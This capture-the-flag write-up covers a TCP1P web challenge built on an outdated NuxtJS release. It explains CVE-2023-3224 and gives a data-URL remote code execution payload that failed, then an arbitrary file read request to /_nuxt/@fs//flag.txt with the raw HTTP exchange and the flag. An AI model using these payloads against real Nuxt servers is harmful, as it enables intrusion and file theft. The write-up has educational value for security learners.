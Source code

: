```yaml
---
title: WebNoName
date: 2023-12-10T13:37:49+02:00
description: Writeup for Subject Encallmente [TCP1P]
author: 1byteBoy
tags:
  - Web
draft: false
---
```


**Author**: `daffainfo`

It turns out that learning to make websites using NuxtJS is really fun

[http://ctf.tcp1p.com:45681](http://ctf.tcp1p.com:45681)

----------

The challenge came with a zip file that contains the following files'

```
.
├── docker-compose.yml
└── src
    ├── app.vue
    ├── Dockerfile
    └── flag.txt
```

the most important file to look here is the `Dockerfile` 

```dockerfile
# Use the official Node.js image as the base image
FROM node:18

# Install PNPM
RUN npm uninstall -g yarn pnpm
RUN npm install -g corepack

#RUN mkdir /.cache && chmod -R 777 node_modules/.cache
# Set the working directory in the container
WORKDIR /app

# Clone the Nuxt.js repository and switch to the desired release
RUN git clone https://github.com/nuxt/framework.git /app && \
cd /app && \
git checkout v3.0.0-rc.12

# Copy the test.txt file from the build context into the container
COPY flag.txt /

# Copy app.vue into container
COPY app.vue /app/playground/

# Install project dependencies using pnpm
RUN pnpm install
RUN pnpm build:stub

# Add new user named ctf and add permission for corepace
RUN useradd -ms /bin/bash ctf
RUN mkdir /home/ctf/.cache && chmod -R 777 /home/ctf/.cache && chmod -R 777 /app

# Change to user ctf
USER ctf

# Expose the port that Nuxt.js will run on
EXPOSE 3000

# Start the Nuxt.js development server
CMD ["pnpm", "run", "dev", "--host", "0.0.0.0"]
```

there is lot of thing to consider but most importantly 

```
RUN git clone https://github.com/nuxt/framework.git /app && \
cd /app && \
git checkout v3.0.0-rc.12
```

so the developer is cloning the source code of a framework and if we check the link it's a framework called **NuxtJS**. So after cloning the repository it seems, the developer is either going back to some release version and that is the main problem. 

Now if we look for NuxtJS vulnerability with that version number here what we get. First, the core repo is archived and the development has shifted to another repo https://github.com/nuxt/framework

Now if we google for `nuxt framwork security vulnerablity` here is one of the site that we get

https://pentest-tools.com/vulnerabilities-exploits/nuxt-framework-remote-code-execution_CVE-2023-3224 which talks about

*Nuxt Framework is affected by a Remote Code Execution vulnerability inside the `nuxt-root.vue` component. The root cause of this vulnerability is improper sanitization of user-provided input in the URL by accessing `/__nuxt_component_test__/` endpoint. This allows an unauthenticated malicious attacker to execute commands on the Node.js server.*

**Nuxt Framework - Remote Code Execution (CVE-2023-3224)**

the site links to further resources one of which is 
https://nvd.nist.gov/vuln/detail/CVE-2023-3224

This above site further links to a report site which talks a little more detailed about the CVE 
https://huntr.dev/bounties/1eb74fd8-0258-4c1f-a904-83b52e373a87/

*at this point i was not sure and payloads were not working, i tried the same thing but it was not working, payload like*

```
/__nuxt_component_test__/?path=data%3Atext%2Fjavascript%2Cconsole%2Elog%28%22hello%21%22%29%3B
```

now if we understand what it is doing, it is generally importing the parameter that we pass and executing it in the console, but for us it's different we get one of the errors if we do so 

```
The stylesheet [http://ctf.tcp1p.com:45681/_nuxt/app.vue?vue&type=style&index=0&scoped=938b83b0&lang.css](http://ctf.tcp1p.com:45681/_nuxt/app.vue?vue&type=style&index=0&scoped=938b83b0&lang.css "http://ctf.tcp1p.com:45681/_nuxt/app.vue?vue&type=style&index=0&scoped=938b83b0&lang.css") was not loaded because its MIME type, “application/javascript”, is not “text/css”.
```

cause our app is not any script rather a *text/css* file, so we can't execute any commands but don't worry there are many other ways to exploit it that i got in the following

What i did is google a second time for `__nuxt__ components vulnerability 2023` and got a site https://cve.report/CVE-2023-3224, this site contains most of the blog post or twitter post that talks about the CVE

https://twitter.com/i/web/status/1669259637139427329
https://twitter.com/i/web/status/1669339995780558849

these post contain a similar link to a blog post, which helped me to solve the challenge

The blog explain the CVE in a really detailed way and show different ways of how we can exploit the vulnerability, one of the is 

**Arbitrary File Read in development mode** where we can read any file using the following `/_nuxt/@fs/file/path/here`

now we can intercept the request and paste the following to get the flag

```css
GET /_nuxt/@fs//flag.txt HTTP/1.1
Host: ctf.tcp1p.com:3	000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: session=21d0ddf1-7c17-48ca-9750-677d04652b56.LkVLdjGo-hu-7LT00_C1YrpJKag
Upgrade-Insecure-Requests: 1
```

```css
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Content-Length: 33
Content-Type: text/plain
Last-Modified: Wed, 11 Oct 2023 15:04:44 GMT
ETag: W/"33-1697036684000"
Cache-Control: no-cache
Date: Sat, 14 Oct 2023 15:18:12 GMT
Connection: close

TCP1P{OuTD4t3d_NuxxT_fR4m3w0RkK}
```


